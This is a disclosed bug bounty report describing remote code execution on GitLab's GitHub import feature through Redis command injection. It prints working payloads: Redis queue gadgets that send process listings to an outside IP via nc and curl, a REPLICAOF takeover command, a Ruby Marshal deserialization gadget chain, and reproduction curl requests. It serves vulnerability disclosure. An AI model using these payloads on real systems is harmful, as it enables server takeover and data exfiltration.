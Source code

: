# RCE via github import

## Report Details
- **Report ID**: 1672388
- **URL**: https://hackerone.com/reports/1672388
- **State**: Closed
- **Severity**: critical
- **Submitted**: 2022-08-17T12:18:56.726Z
- **Disclosed**: 2022-11-16T01:10:35.826Z

## Reporter
- **Username**: yvvdwf
- **Name**: N/A

## Team
- **Name**: N/A
- **Handle**: gitlab

## Vulnerability Information
Hello,

While continuing mining on [github import](https://hackerone.com/reports/1665658), I found a vulnerability on gitlab.com allowing to execute remotely arbitrary commands.

Gitlab uses Octokit to get data from github.com. Octokit uses [Sawyer::Resource](https://github.com/lostisland/sawyer/blob/master/lib/sawyer/resource.rb) to represent results.

Sawyer is a crazy class that [converts](https://github.com/lostisland/sawyer/blob/f5f080d5c5260e094069139ffc7c13d0acba4ab5/lib/sawyer/resource.rb#L81) a hash to an object whose methods are based on the hash's key:

```ruby
irb(main):641:0> Sawyer::VERSION
=> "0.8.2"
irb(main):642:0> a = Sawyer::Resource.new( Sawyer::Agent.new(""), to_s: "example", length: 1)
=> 
{:to_s=>"example", :length=>1}
...
irb(main):643:0> a.to_s
=> "example"
irb(main):644:0> a.length
=> 1
```

Gitlab uses directly the responded Sawyer object in few functions, such as, the `id` variable in [this function](https://gitlab.com/gitlab-org/gitlab/-/blob/99f5db917a33ad9466f35918a1da454ed397be8e/lib/gitlab/github_import/parallel_scheduling.rb#L145):

```ruby
      def already_imported?(object)
        id = id_for_already_imported_cache(object)

        Gitlab::Cache::Import::Caching.set_includes?(already_imported_cache_key, id)
      end
```

Normally, `id` should be a number. However when `id` is `{"to_s": {"bytesize": 2, "to_s": "1234REDIS_COMMANDS" }}`, we can inject additional redis commands by using `bytesize` to limit the previous command when it [is constructed](https://github.com/redis/redis-rb/blob/v4.4.0/lib/redis/connection/command_helper.rb#L8) (although the `bytesize` is `2` we need to reserve 4 bytes as 2 additional bytes for CLRF):

```ruby
      def build_command(args)
        command = [nil]

        args.each do |i|
          if i.is_a? Array
            i.each do |j|
              j = j.to_s
              command << "$#{j.bytesize}"
              command << j
            end
          else
            i = i.to_s
            command << "$#{i.bytesize}"
            command << i
          end
        end
```

As we can execute any redis commands, we can escalate to execute any Bash command by using an existing gadget, for example:

```
lpush resque:gitlab:queue:system_hook_push "{\"class\":\"GitlabShellWorker\",\"args\":[\"class_eval\",\"open(\'| (hostname; ps aux)  | nc 51.75.74.52 11211  \').read\"],"queue\":\"system_hook_push\"}"
```

I tested this redis command first on my own gitlab instance and it worked. 

I then tested on gitlab.com but got nothing. I tried another by replacing basically `nc` by `curl` but no luck:

```
 lpush resque:gitlab:queue:system_hook_push "{\"class\":\"PagesWorker\",\"args\":[\"class_eval\",\"IO.read('|(hostname; ps aux) | curl 51.75.74.52:11211 -X POST --data-binary @-  ')\"], \"queue\":\"system_hook_push\"}"
```

Although the gadget above works well on my local instance but gitlab SaaS which may be protected somehow or used another redis namespace for Sidekiq, even another redis instance. So I used then the basic redis command `REPLICAOF 51.75.74.52 11211\n\n` to test gitlab.com and I got a ping from your redis server to my server `nc -vlkp 11211`:

{F1871024}

This means that I have the full control on the redis. After seeing the pings, I immediately turned off the replication by executing the redis command `REPLICAOF no one\n\n`. No information from your redis server has been replicated to mine as I used `nc` and I got only the `ping` messages.


By checking on my local instance at `/var/opt/gitlab/redis/redis.conf`, I see that only `keys` command is disable. I did not try `FLUSHALL` to write data to file as it is too dangerous.

As gitlab uses redis as a cache storage, so I tried to reach RCE via `Marshal.dump` method. I tested the following payload on gitlab.com to poison the avatar of my project via the key `cache:gitlab:avatar:yvvdwf/xss:16210710`:

```
\r\n*3\r\n$3\r\nset\r\n$39\r\ncache:gitlab:avatar:yvvdwf/xss:16210710\r\n$347\r\n\u0004\b[\bc\u0015Gem::SpecFetcherc\u0013Gem::InstallerU:\u0015Gem::Requirement[\u0006o:\u001cGem::Package::TarReader\u0006:\b@ioo:\u0014Net::BufferedIO\u0007;\u0007o:#Gem::Package::TarReader::Entry\u0007:\n@readi\u0000:\f@headerI\"\u0006a\u0006:\u0006ET:\u0012@debug_outputo:\u0016Net::WriteAdapter\u0007:\f@socketo:\u0014Gem::RequestSet\u0007:\n@setso;\u000e\u0007;\u000fm\u000bKernel:\u000f@method_id:\u000bsystem:\r@git_setI\".(hostname; ps aux) | nc 51.75.74.52 11211\u0006;\fT;\u0012:\fresolve\r\n\r\n
```

Although I did not get RCE but it seems working as I got `500` error code when trying to access to my project. And now I cannot access to my project via web interface. I think I should stop testing to avoid any further potential incidences. I did all the tests above on gitlab.com on 16-17 August 2022 from IP `51.75.74.52`

{F1871025}

# Steps to reproduce

The steps to reproduce should be the same as this [one](https://hackerone.com/reports/1665658)

The following steps are to reproduce on a local gitlab instance whose domain is `http://gitlab.example.com`:

# Step to reproduce

To reproduce, we need the following prerequisite: 

- A VM/machine to host the dummy server  with an public IP though that gitlab.example.com can access to (or you can configure your gitlab instance to allow to access to local networks)
- I created the dummy server using nodejs, so you need to have also nodejs on the machine
- A Gitlab personal access token. Go to http://gitlab.example.com/-/profile/personal_access_tokens?scopes=api to create a new token with within `api` scope.


# Step 1: run the dummy server

- Copy the attachment file on your machine and decompress it to any folder, e.g., `/tmp/dummy-server`
- *Modify the attack payload* as you need inside `redis_command.txt` file, the default value is to execute the command `(hostname; ps aux) > /tmp/ahihi`:
```
 lpush resque:gitlab:queue:system_hook_push "{\"class\":\"PagesWorker\",\"args\":[\"class_eval\",\"IO.read('|(hostname; ps aux) > /tmp/ahihi ')\"], \"queue\":\"system_hook_push\"}"
```
- Go to `/tmp/dummy-server` then run this command: `node ./index.js YOUR_IP YOUR_PORT` in which, you should replace `IP` and `PORT` with the one you have. For example, `sudo node index.js 51.75.74.52 80`

# Step 2: trigger Gitlab import

- Open a new terminal, then run the following command, in which:

   + `YOUR_IP` and `YOUR_PORT` are the values in the previous step
   + `YOUR_GITLAB_TOKEN` is the api token you've created in the pre-requirement
   + `YOUR_GITLAB_USERNAME` is the target namespace you want to import the project to. It can be your username, or a group name

```bash
curl -kv "http://gitlab.example.com/api/v4/import/github" \
  --request POST \
  --header "content-type: application/json" \
  --header "PRIVATE-TOKEN: YOUR_GITLAB_TOKEN" \
  --data '{
    "personal_access_token": "ghp_aaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaa",
    "repo_id": "356289002",
    "target_namespace": "YOUR_GITLAB_USERNAME",
    "new_name": "poc-rce",
    "github_hostname": "http://YOUR_IP:YOUR_PORT"
}'
```

For example:

```bash
curl "http://gitlab.example.com/api/v4/import/github" \
  --request POST \
  --header "content-type: application/json" \
  --header "PRIVATE-TOKEN: 3LCvKWXVF-Gadcnbxxxx" \
  --data '{
    "personal_access_token": "xxxxx",
    "repo_id": "356289002",
    "target_namespace": "root",
    "new_name": "NEW-NAME-'$(date +%s)'",
    "github_hostname": "http://ns.yvvdwf.me:80"
}'
```

- View the result in `/etc/ahihi`

## Impact

Any one the the ability to call `api/v4/import/github` endpoint could achieve RCE via a specially crafted responses

## Attachments
- redis_replicaof.png
- something_went_wrong.png
- rce.tar.gz
